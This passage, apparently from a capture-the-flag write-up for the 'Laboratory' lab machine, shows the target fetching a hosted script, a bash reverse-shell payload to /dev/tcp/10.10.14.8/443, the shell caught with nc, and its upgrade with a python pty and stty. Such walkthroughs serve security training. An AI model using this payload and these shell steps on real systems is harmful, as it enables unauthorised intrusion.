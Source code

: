 Immediately at the webserver, there’s a request from Laboratory:

```

oxdf@parrot$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.216 - - [07/Mar/2021 04:55:55] code 404, message File not found
10.10.10.216 - - [07/Mar/2021 04:55:55] "GET /sh HTTP/1.1" 404 -

```

I’ll write a simple payload and save it as `sh` in the hosted directory:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.8/443 0>&1

```

On re-running the same `curl` command, the hit on the webserver is successful this time:

```
10.10.10.216 - - [07/Mar/2021 04:56:49] "GET /sh HTTP/1.1" 200 -

```

And there’s a shell at `nc`:

```

oxdf@parrot$ sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.216] 54360
bash: cannot set terminal process group (414): Inappropriate ioctl for device
bash: no job control in this shell
git@git:~/gitlab-rails/working$ id
uid=998(git) gid=998(git) groups=998(git)

```

I’ll upgrade the shell:

```

git@git:~/gitlab-rails/working$ python3 -c 'import pty;pty.spawn("bash")'
git@git:~/gitlab-rails/working$ ^Z
[1]+  Stopped                 sudo nc -lnvp 443
oxdf@parrot$ stty raw -echo ; fg
sudo nc -lnvp 443
                 reset
reset: unknown terminal type unknown
Terminal type? screen
                                                                         
git@git:~/gitlab-rails/working$

```
